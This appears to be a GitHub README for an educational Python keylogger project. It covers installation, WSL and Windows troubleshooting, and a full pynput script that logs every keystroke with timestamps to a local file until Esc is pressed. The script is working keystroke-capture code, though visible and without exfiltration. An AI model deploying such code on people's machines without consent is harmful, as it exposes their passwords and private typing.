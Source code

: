 # Keylogger_Project

## Project Description

This project is a Python-based keylogger designed to capture keystrokes and store them in a local text file. It was created for learning and exploration purposes, and it demonstrates the use of libraries and logging functionality in Python.

## ⚠️ Disclaimer

This project is intended strictly for educational and testing purposes. Unauthorized or malicious use of this script for tracking keystrokes or other unauthorized activities may violate privacy laws and is strictly prohibited. By using this project, you agree to adhere to all applicable laws and use this code responsibly. The author does not endorse or condone the use of this script for any unlawful or unauthorized purposes.

## Learning Objectives

The goals for this project included:
   
   Building a functional keylogger script in Python.
   Understanding and resolving issues with virtual environments and package installations.
   Gaining familiarity with troubleshooting techniques in different development environments (WSL and native Windows).

## Prerequisites:

   - Python 3.10 or later
   - pynput package
   - Virtual environment setup (optional)

## Setup and Installation
  ### 1. Clone the repository:

    git clone https://github.com/yourusername/Keylogger_Project.git

  ### 2. Create a virtual environment:

    python3 -m venv keylogger_env

  ### 3. Activate the environment:

  ### For Windows:

      keylogger_env\Scripts\activate

  ### For WSL/Linux:

      source keylogger_env/bin/activate

  ### 4. Install dependencies:

      pip install pynput

## Usage

  1. Run the script:

    python3 keylogger_script.py

  2. Log files will be generated in the same directory as <keylogger_script.py>.


## Key Challenges and Solutions

During this project, several challenges were encountered and resolved:

   1. Issue: ModuleNotFoundError for pynput
        -Solution: Verified virtual environment installation and activated it correctly. Found that sudo bypassed the virtual environment, so permissions were managed without sudo.

   2. Environment-Specific Issues:
        -Problem: Script did not initially work on WSL.
        -Solution: Troubleshot environment by switching to a native Windows environment. This helped verify if WSL-specific permissions were the source of the issue.

   3. Permissions:
        -Solution: Adjusted file permissions in Ubuntu to ensure the script could write to the log file, especially when running without elevated permissions.

## Script Overview

This Python script listens for key presses and logs them to a file (`key_log.txt`). It uses the `pynput` library to capture key events and the `logging` module to record them with timestamps.

### How It Works:
  1. The script monitors all key presses and logs each key pressed to a log file.
  2. Special keys (like Shift, Ctrl, etc.) are also logged as "special key" presses.
  3. The script stops when the `Esc` key is pressed.

### Logging:
  - All key presses are logged in the `key_log.txt` file, with a timestamp of when each key was pressed.

python
    
    import logging
    from pynput import keyboard
    from datetime import datetime

    # Set up logging
    log_file_path = "key_log.txt"
    logging.basicConfig(filename=log_file_path, level=logging.DEBUG, format='%(asctime)s: %(message)s')

    def on_press(key):
      try:
          logging.info(f'Key {key.char} pressed')
      except AttributeError:
          logging.info(f'Special key {key} pressed')

    def on_release(key):
       if key == keyboard.Key.esc:
          return False  # Stop listener

    if __name__ == "__main__":
        print("Keylogger is running...")
        with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
            listener.join()


## Future Improvements

  - Error Handling: Add error handling for different environments.
  - Dynamic File Paths: Allow for customizable log file paths.
